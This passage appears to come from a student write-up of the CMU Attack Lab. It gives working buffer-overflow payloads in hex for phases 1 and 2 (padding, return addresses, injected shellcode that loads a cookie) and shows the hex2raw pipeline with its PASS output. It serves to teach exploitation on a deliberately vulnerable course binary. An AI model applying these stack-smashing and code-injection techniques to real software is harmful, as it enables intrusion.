 Therefore we need 5 * 8 bytes (our previously determined padding of 40 bytes) of empty input (or any input), followed by 0x4017c0.

Solution that solves the phase:
```
00 00 00 00 00 00 00 00 --> padding
00 00 00 00 00 00 00 00 --> padding
00 00 00 00 00 00 00 00 --> padding
00 00 00 00 00 00 00 00 --> padding
00 00 00 00 00 00 00 00 --> padding
C0 17 40 00 00 00 00 00 --> address of touch1
```

Using hex2raw to feed our raw input into ctarget:
```
$ cat phase1_answer | ./hex2raw | ./ctarget -q
    Cookie: 0x59b997fa
    Type string:Touch1!: You called touch1()
    Valid solution for level 1 with target ctarget
    PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:
            00 00 00 00 00 00 00 00
            00 00 00 00 00 00 00 00
            00 00 00 00 00 00 00 00
            00 00 00 00 00 00 00 00
            00 00 00 00 00 00 00 00
            C0 17 40 00 00 00 00 00
```
## Phase 2
### Solution
```
48 C7 C7 FA 97 B9 59 C3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 DC 61 55 00 00 00 00
EC 17 40 00 00 00 00 00
```
### Discussion
The goal of phase 2 is to do the same thing as before but to make ctarget call touch2 this time instead of touch1.

From the notes we can see the C code for touch2:
```
void touch2(unsigned val){
    vlevel = 2; //part of validation protocol
    if(val == cookie){
        success message
    }
    else{
        fail message
    }
    exit(0);
}
```
So the important difference between touch1 and touch2 is that touch2 takes in an argument. We can't simply call the function, we must make sure the correct argument is passed. 
